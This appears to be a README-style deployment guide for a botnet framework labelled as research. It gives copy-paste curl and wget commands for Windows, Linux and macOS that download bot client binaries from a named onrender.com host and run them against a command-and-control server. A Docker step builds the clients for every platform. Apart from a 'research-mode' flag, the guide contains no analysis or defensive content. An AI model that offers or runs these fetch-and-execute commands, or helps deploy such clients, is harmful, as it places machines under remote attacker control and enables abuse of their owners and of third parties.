 # Bot Client Deployment Guide
## Advanced Botnet Research Framework

Deploy standalone bot clients that connect to your Render C2 server.

## 🎯 Quick Deployment Options

### **Option 1: Pre-built Binaries (Recommended)**
Download ready-to-use executables for different platforms:

**Windows:**
```powershell
# Download Windows client
curl -L https://botnet-wqg2.onrender.com/download/client-windows.exe -o bot-client.exe

# Run client
./bot-client.exe --server https://botnet-wqg2.onrender.com --research-mode
```

**Linux:**
```bash
# Download Linux client
wget https://botnet-wqg2.onrender.com/download/client-linux -O bot-client

# Make executable and run
chmod +x bot-client
./bot-client --server https://botnet-wqg2.onrender.com --research-mode
```

**macOS:**
```bash
# Download macOS client
curl -L https://botnet-wqg2.onrender.com/download/client-macos -o bot-client

# Make executable and run
chmod +x bot-client
./bot-client --server https://botnet-wqg2.onrender.com --research-mode
```

### **Option 2: Docker-based Client Generation**
Use Docker to compile clients for all platforms:

```bash
# Build all client binaries
docker run --rm -v $(pwd):/workspace botnet-builder:latest

# This generates:
# - client-windows.exe
# - client-linux
# - client-macos
```

